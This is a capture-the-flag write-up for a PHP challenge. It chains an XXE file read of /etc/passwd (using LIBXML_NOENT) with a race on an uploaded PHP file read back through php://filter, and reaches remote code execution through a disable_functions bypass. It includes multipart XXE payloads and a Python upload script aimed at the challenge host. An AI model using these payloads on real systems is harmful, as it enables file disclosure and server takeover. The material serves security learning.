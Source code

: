 # 31 Line PHP

## Description

Like the legendary ~~one-~~ 31- line php challenge

**`62.84.114.238/`**

_On the last step, you’ll need a recently published 0day._

## Solution

Here's the challenge source code:

```php
<?php
session_start();
if (!isset($_POST["data"])) {
    highlight_file(__FILE__);
    die();
}
if (!isset($_SESSION["id"])) {
    $_SESSION["id"] = md5(random_bytes(16));
}
$id = $_SESSION["id"];
echo "Welcome, $id\r\n";

if (!file_exists("/var/www/html/upload/" . $id)) {
    mkdir("/var/www/html/upload/" . $id, 0755, true);
}
$name = $_FILES["data"]["name"];
move_uploaded_file($_FILES["data"]["tmp_name"],"/var/www/html/upload/$id/$name");
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
$xmlfile = file_get_contents("/var/www/html/upload/$id/$name");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT);
$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;
echo "You have logged in as user $user";
unlink("/var/www/html/upload/$id/$name");
?>
```

### XXE Injection

We can quite clearly see that this must have something to do with XML parsing. One part of the code stood out in particular:

```php
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
```

The comments seem reasonable. Does this mean that there is no XXE here?

It turns out that this part was inspired by a [WordPress bug](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability) a while back this year. While the above justification is correct, the nuance lies in how `loadXML()` is called.

It turns out that the `LIBXML_NOENT` flag actually _enables_ entity substitution - the flag means that no entities will be left in the result, i.e. external entities will be fetched and substituted.

```php
$dom->loadXML($xmlfile, LIBXML_NOENT);
```

So, surprisingly, we _do_ have an XXE here. Here's an LFI payload:

```
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"; filename="test.xml"
Content-Type: text/xml

<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "file:///etc/passwd" > ]>
<creds>
    <user>&myExternalEntity;</user>
    <pass>mypass</pass>
</creds>
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"

test
------WebKitFormBoundaryO6d3yhN5GpxEyAKE--
```

### PHP Code Injection

I started searching for flag files but had no luck. After asking the organizers, they confirmed that I must get an RCE somehow.

This got me looking back at the source code. Note that we have a remote file upload here - the uploaded file is at `/var/www/html/upload/$id/$name` and we have access to this file through the web server (the web root is `/var/www/html`). The only caveat is that the file is deleted as soon as the XML parsing is done.

This still allows us to request the file _while_ the XML parsing is being performed. If we upload a PHP file, we can request that file again within the XML and use `php://filter/` to reflect the output into the `<user>` tag.

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/89e05a8b6e028eeda25a0845b9b3daaa/payload.php" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    
<?php phpinfo(); ?>
```

Using the `phpinfo()` output, we can see the `disable_functions` configuration.

![](<../../.gitbook/assets/image (79) (1) (1).png>)

As we can see, all of the functions that can give us a shell command execution are disabled.

### disable\_functions Bypass

The challenge hinted at a zero-day being needed for the last step.

A recent (published just 5 days ago) [PoC](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass) allowed us to bypass `disable_functions` on all PHP versions.

This allowed us to get shell RCE and run the `/readflag` binary to read the flag.

```python
import requests
import re
import base64

FILENAME = 'payload.php'
TARGET = 'http://62.84.114.238'
COMMAND = '/readflag'

with open(FILENAME, 'w') as f:
    f.write("""
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/3354e780fbef91d0ebc5875d77aee578/{}" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    """.format(FILENAME) + """
<?php
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn('{}');""".format(COMMAND) + r"""

... EXPLOIT HERE ...

?>
""")

r = requests.post(TARGET,
    files = {'data': (FILENAME, open(FILENAME, 'rb'))},
    data = {'data': 'test'},
    headers = {'Cookie': 'PHPSESSID=85ab80ed3e1f88a7827a75c5f9dc7c1f'}
)

print(r.text)

match = re.search('You have logged in as user (.*)', r.text)
print(match[1])
print(base64.b64decode(match[1]).decode())
```

The flag is `spbctf{XX3_2_rCe_w3Ll_D0n3}`\
